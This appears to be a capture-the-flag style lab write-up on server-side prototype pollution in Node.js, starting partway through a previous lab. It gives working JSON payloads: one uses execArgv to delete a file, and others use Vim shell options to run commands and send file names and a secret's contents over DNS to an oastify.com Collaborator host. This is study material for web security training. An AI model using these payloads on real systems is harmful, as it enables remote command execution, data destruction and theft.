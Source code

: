     {
        "address_line_1": "Wiener HQ",
        "address_line_2": "One Wiener Way",
        "city": "Wienerville",
        "postcode": "BU1 1RP",
        "country": "UK",
        "sessionId": "BT6cFDohs56k0GoEGP4xRXwFF2RY1SHK",
        "__proto__": {
            "execArgv": [
            "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
            ]
        }
    }
### LAB: Exfiltrating sensitive data via server-side prototype pollution
Send the `POST /my-account/change-address HTTP/2` request to `Repeater`. Try pollute the prototype by adding this to the body:

    "__proto__": {
        "json spaces": 10
    }

Notice the indention of the returned object viewed in raw is changed which indicates a successfull prototype pollution. Now change the body to include this:

    "__proto__": {
        "shell": "vim",
        "input": ":! cat $(/home/carlos).hpa7lspiffwu453o0k2zy1xtuk0bo1cq.oastify.com \n"
    }

This payload will use Vim as an interactive prompt and execute the command passed in `input` (the `\n` is neccessary because in Vim the user needs to hit `Enter` to run the provided command). Now send the `POST /admin/jobs HTTP/2` request to execute the shell command. Notice in the `Collaborator` tab, there are DNS requests to:

    secret.hpa7lspiffwu453o0k2zy1xtuk0bo1cq.oastify.com

This indicates that there is a file named `secret` in `/home/carlos`. Now change the shell command to:

    :! ls $(/home/carlos/secret).hpa7lspiffwu453o0k2zy1xtuk0bo1cq.oastify.com \n

Resend the `POST /admin/jobs HTTP/2` request to execute the shell command. Notice in the `Collaborator` tab, there are DNS requests to:

    W0h4Feu25FyPUB4rD59u8VUlaHZKZ2sm.hpa7lspiffwu453o0k2zy1xtuk0bo1cq.oastify.com

This gives us the content of `secret`:

    W0h4Feu25FyPUB4rD59u8VUlaHZKZ2sm